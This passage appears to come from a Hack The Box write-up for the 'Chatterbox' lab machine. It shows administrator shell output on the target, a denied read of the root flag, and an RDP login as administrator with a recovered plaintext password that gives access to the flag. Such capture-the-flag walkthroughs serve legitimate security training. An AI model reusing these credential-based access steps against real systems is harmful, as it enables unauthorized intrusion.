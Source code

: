 ```bash


Ethernet adapter Local Area Connection 4:

   Connection-specific DNS Suffix  . : .htb
   IPv4 Address. . . . . . . . . . . : 10.129.27.60
   Subnet Mask . . . . . . . . . . . : 255.255.0.0
   Default Gateway . . . . . . . . . : 10.129.0.1

Tunnel adapter isatap..htb:

   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . : .htb

C:\Windows\system32>cd c:\users\administrator\desktop
 
c:\Users\Administrator\Desktop>dir
 Volume in drive C has no label.
 Volume Serial Number is 502F-F304

 Directory of c:\Users\Administrator\Desktop

12/10/2017  07:50 PM    <DIR>          .
12/10/2017  07:50 PM    <DIR>          ..
04/03/2024  07:13 AM                34 root.txt
               1 File(s)             34 bytes
               2 Dir(s)   3,347,312,640 bytes free

c:\Users\Administrator\Desktop>type root.txt
Access is denied.
 
c:\Users\Administrator\Desktop>

```

We cannot read the root flag since the permissions on the file are not allowing us to read it.
Let's try to capture the root flag without changing any file permissions by connecting to the RDP service as administrator.

```bash
┌──(emvee㉿kali)-[~/Documents/HTB/Chatterbox]
└─$ rdesktop $ip -u 'administrator' -p 'Welcome1!' 
Autoselecting keyboard map 'en-us' from locale
Core(warning): Certificate received from server is NOT trusted by this system, an exception has been added by the user to trust this specific certificate.
Failed to initialize NLA, do you have correct Kerberos TGT initialized ?
Core(warning): Certificate received from server is NOT trusted by this system, an exception has been added by the user to trust this specific certificate.
Connection established using SSL.
Protocol(warning): process_pdu_logon(), Unhandled login infotype 1
Clipboard(error): xclip_handle_SelectionNotify(), unable to find a textual target to satisfy RDP clipboard text request

```
Now let's try to open the  root flag.

![Image](/assets/img/WriteUp/HTB/Chatterbox/Pasted image 20240403120102.png){: width="700" height="400" }

We got the root flag finally.